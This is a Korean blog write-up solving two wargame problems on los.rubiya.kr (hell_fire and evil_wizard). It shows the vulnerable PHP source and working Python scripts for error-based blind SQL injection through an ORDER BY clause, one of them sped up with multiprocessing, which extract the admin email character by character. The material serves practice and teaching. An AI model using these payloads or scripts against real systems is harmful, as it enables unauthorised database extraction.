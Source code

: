 ```yaml
---
title: "[LOS] 23,24번 문제 풀이(hell_fire,evil_wizard)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 23번
  - los 24번
  - los hell_fire
  - los evil_wizard
  - multiproccessing
  - blind sql injection
  
toc: true
toc_sticky: true
toc_label: "23,24번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 23번,24번 문제에 대한 풀이입니다. Blind SQL Injection을 멀티프로세싱으로 처리해 보았습니다.
{: .notice--warning}



# 23번(hell_fire)
## 문제
![image](https://user-images.githubusercontent.com/33647663/158282940-1337ec7e-8b07-48b7-84f5-744778543dc3.png)


```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

## 풀이
이번 문제는 입력 값이 order by 절에 입력이 됩니다. 처음에 시도한 방법은 if(조건문,1,3) 방식으로, 조건문의 결과가 참이면 1, 거짓이면 3이 출력되게 하여 조건문의 결과를 판단하려고 했습니다.

다음과 같이 order by 1과 3의 결과가 다르기 때문에, if 문을 이용하면 될 거라 생각했습니다.

![image](https://user-images.githubusercontent.com/33647663/158283362-e98798e8-eed6-4411-b7f8-36bd1c8e084a.png)

---

![image](https://user-images.githubusercontent.com/33647663/158283384-49d90fc4-6ab1-43bd-9126-15be0fedeafa.png)



하지만 이유는 잘 모르겠는데, order by 절 뒤에는 서브쿼리나, 함수가 사용되면 결과 값과 상관없는 결과가 나옵니다. 예를 들어 if(1=1,1,2) 라고 하면 1이 반환될거라 생각했지만, 제가 생각하는 방식대로 처리되지 않고, 결과와 상관없이 일정하게 출력이 됩니다.
-> **if(1=1,1,2) 나 if(1=1,1000,2)나 출력결과가 같음**

그래서 이번 문제도 error based 방식으로 접근해 봤습니다.

차이가 나는 점은 오류가 발생하지 않으면 결과가 출력되고, 서브 쿼리 내에서 오류가 발생하면 결과가 출력되지 않는다는 점이었습니다.

1. order=(select 1 where if(1=1,1,pow(12341234,12341234)))

![image](https://user-images.githubusercontent.com/33647663/158284038-4d57481f-6e6f-4a0c-a519-fe46442ec390.png)

-> **조건문이 참일때는, 1이 선택되어서 오류가 발생하지 않아서 테이블이 출력됩니다.**

2. order=(select 1 where if(1=2,1,pow(12341234,12341234)))

![image](https://user-images.githubusercontent.com/33647663/158284153-774f74ac-dde1-4c4e-b1ca-593fba8eab10.png)

-> **조건문이 거짓일때는, pow(12341234,12341234)가 선택되어 실행되기 때문에 오류가 발생하여 테이블이 출력되지 않습니다.**

이를 이용한 error based blind sql 코드입니다.

```python
import requests
import string

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
params={'order' : None}
cookies = {'PHPSESSID' :'1t87momi7f10m7tl6kkv6t0lob' }

# 이메일 길이
for i in range(30):
    payload="(select 1 where if(id='admin' and length(email)={},pow(12341234,12341234),1))".format(i)
    params['order'] = payload
    print(payload)
    response = requests.get(url,params=params,cookies=cookies)
    if("rubiya805@gmail.cm" not in response.text):
        print("find the pw_length",i)
        break

# 이메일 길이 28

email = ''
for i in range(1,29):
    for j in string.printable:
        payload="(select 1 where if(id='admin' and ascii(substr(email,{},1))={},pow(12341234,12341234),1))".format(i,ord(j))
        params['order'] = payload
        print(payload)
        response = requests.get(url,params=params,cookies=cookies)
        if("rubiya805@gmail.cm" not in response.text):
            email += j
            print("find the email",email)
            break

print(email)
```

![image](https://user-images.githubusercontent.com/33647663/158287577-ad9c44fe-0dc9-47e8-8a60-00ea4fc5820a.png)

![image](https://user-images.githubusercontent.com/33647663/158287614-dc4c60c0-8b7e-4948-b3e0-250e2c1d86d3.png)


# 24번(evil_wizard)
## 문제
![image](https://user-images.githubusercontent.com/33647663/158293178-35d5511b-dbe8-4642-bbb2-b3c4a830f352.png)

23번 문제인 hell_fire와 필터링된 문자에서만 차이가 있고 나머진 차이가 없는 문제입니다.

필터링의 차이는 다음과 같습니다

```php
# hell_fire 문제에서의 필터링
if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");

# evil_wizard 문제에서의 필터링
if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
```

sleep과 benchmark함수에 대한 필터링이 추가되었습니다. 아마 23번을 Time Based blind SQL Injection으로 풀었다면 다른 방법으로 풀어야 할텐데 저는 Time Based Blind SQL Injection이 아닌 Error based로 풀었기 때문에 해당 필터링에 상관없이 동일하게 코드를 작성하면 정답이 나옵니다..^

## 풀이
그런데 이번에는 긴 문자에 대해서 멀티프로세싱을 이용하여 Blind sql injection을 수행해 봤습니다. 멀티프로세싱은 병렬적으로 처리하는 프로세스에서 수행하면 성능이 드라마틱하게 향상이 되는데, 역시 blind sql injection에 적용을 해보니 3~4배 정도는 빠르게 정답을 찾아냈습니다.

다음은 멀티 프로세싱을 이용하여 작성한 코드입니다.

```python
from multiprocessing import Pool
import requests
import string

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
params={'order' : None}
cookies = {'PHPSESSID' :'1t87momi7f10m7tl6kkv6t0lob' }

# 이메일 길이
for i in range(28,40):
    payload="(select 1 where if(id='admin' and length(email)={},pow(12341234,12341234),1))".format(i)
    params['order'] = payload
    print(payload)
    response = requests.get(url,params=params,cookies=cookies)
    if("rubiya805@gmail.com" not in response.text):
        print("find the pw_length",i)
        break

# 이메일 길이 28

def blind_sql_inject(i):
    for j in string.printable:
        payload="(select 1 where if(id='admin' and ascii(substr(email,{},1))={},pow(12341234,12341234),1))".format(i,ord(j))
        params['order'] = payload
        response = requests.get(url,params=params,cookies=cookies)
        if("rubiya805@gmail.com" not in response.text):
            print("find idx : {}, character : {}".format(i,j))
            return j

if __name__=='__main__':
    with Pool(5) as p:
        ret = p.map(blind_sql_inject,[i for i in range(1,31)])
    for i in ret:
        print(i,end='')
         
```

![image](https://user-images.githubusercontent.com/33647663/158293765-b37bb243-21b4-4b04-ad0c-696aea20a4dd.png)

![image](https://user-images.githubusercontent.com/33647663/158293143-6dfafe9c-5ab7-499c-ad71-f696134bc821.png)